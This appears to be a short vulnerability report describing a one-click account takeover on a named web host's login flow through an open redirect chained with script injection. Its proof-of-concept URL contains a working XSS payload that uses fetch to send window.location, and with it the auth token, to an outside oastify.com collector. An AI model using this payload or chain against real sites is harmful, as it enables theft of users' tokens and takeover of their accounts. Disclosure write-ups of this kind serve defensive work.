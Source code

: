 # Security Finding: One-Click Account Takeover (ATO) via Chained Redirect

## Summary
Discovered a potential One-Click Account Takeover (ATO) due to an **Open Redirect** vulnerability in a whitelisted subdomain, allowing for **Authentication Token theft** via script injection.

## Target Details
* **Target Domain:** `[TARGET_DOMAIN.com]`
* **Vulnerable Main Endpoint:** `[AUTH_OR_LOGIN.DOMAIN.com]/login/?redirectUrl=[... ]`
* **Vulnerable Subdomain/Redirector:** `[VULNERABLE.SUBDOMAIN.com]`
* **Whitelisted Parameter:** `[PARAM_NAME]` (e.g., `redirectUrl` or `next`)

## Steps To Reproduce (POC)

1.  A logged-in victim visits the following malicious, crafted URL.
2.  The URL exploits the whitelisting logic to pass through the main auth flow.
3.  The inner redirect parameter is used to inject a script payload.

### **Malicious URL Structure**
```
https://auth.hostinger.com/login/?redirectUrl=https://marketing.hostinger.com/en-us/marketplace_wix/site_not_published?redirect_url=x"></a><script>fetch('wqqf8xerhgrhdk251cesqastbkhb54xsm.oastify.com',%20{method:%20'POST',body:%20window.location});</script>

```

